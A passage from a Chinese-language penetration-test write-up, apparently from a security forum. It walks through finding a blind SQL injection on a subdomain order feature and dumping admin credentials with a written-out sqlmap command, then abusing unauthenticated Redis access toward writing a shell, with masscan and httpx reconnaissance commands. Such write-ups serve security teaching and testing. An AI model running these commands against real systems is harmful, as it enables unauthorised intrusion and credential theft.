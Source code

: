 社会关系信息:组织成员、管理人员邮箱、域名备案信息、招聘信息...

![1.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-1806195ba2203c9c8cb2938342212a9d65356f4d.png)

0x03 边界漏洞
=========

加载默认配置Burp，主动关掉主被动扫描模式，配置Project Option的代理，再设置好Target Options，接下来，用挂上Burp代理的浏览器去测试打点环节中获取到的大量WEB服务URL。

3.1 发现SQL注入
-----------

某个子域名用户中心的订单查看的功能处，会发起一个POST请求，参数course\_id较为可疑。

```java
1.  POST /xxxx/pay/addTrade HTTP/1.1  
2.  body: course\_id = 1  
```

通过简单的数字运算和)｜'|"闭合确定存在无回显的SQL注入，支持布尔盲注和延时注入，布尔盲注有一个缺点就是，匹配成功会导致生成一个订单，会显得很异常，可能需要自行编写脚本进行改良，二就是选用延时进行注入。这里我选择了延时注入，因为POST请求相对于GET请求较为隐蔽，又经过测试当前站点防护水位很低，一个WAF都没有，故可以选择SQLMAP来读取指定管理员表:

```java
1.  sqlmap -r redacted.txt --technique T --random-agent  --proxy=http://127.0.0.1:8080 --threads=10 -D course -T user -C "username, password" –dump  
```

![2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-f86c22307619b9043d9c241368860c33ea74bd12.png)

1. SQLMAP的探测手段比大多数脚本小子都要好，这里需要注意SQLMAP挂上Burp代理来绕过HTTPS的检验，这样也能够审计SQLMAP流经Burp发送的HTTP包内容。

经过一段时间的等待后，可以获取到后台的管理员账户和密码信息，其中密码为明文，这时并不用急着去登陆，因为不一定能Shell，可知数据库为SQLSERVER，查看权限为DBA，故尝试堆叠执行命令，返回结果非常慢，SQLMAP报错，不能够直接利用，先记录下来。

3.2 发现Redis未授权
--------------

打点环节中利用网络空间搜索引擎的信息可以快速定位到目标Redis未授权访问。

```java
1.  redis-cli -h 1.0.0.126  
```

![3.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-7eb5e265d77b6cc383722a0a826c0db5668fee4d.png)

Windows 64位机器，redis版本3.2.100，无主从复制，可以考虑写Shell或者写启动项进行GetShell。

利用工具写入启动项后需要等待重启才能生效。故想通过路径写Shell，尝试扫描机器上的web服务来收集路径信息:

```java
1.  masscan -p1-65535 1.0.0.126 --rate=20000 >2.txt  
2.  cat 2.txt | grep -P '(\\d+)/tcp' -o|grep -P '\\d+' -o >ports.txt  
3.  # 纯端口扫描  
4.  cat ports.txt |xargs -I {} echo "1.0.0.126:"{}|httpx -o 200\_port.txt  
5.  # 带host扫描  
6.  cat ports.txt |xargs -I {} echo "x.xxxxxxx.com:"{}|httpx -o 200\_host.txt  
```

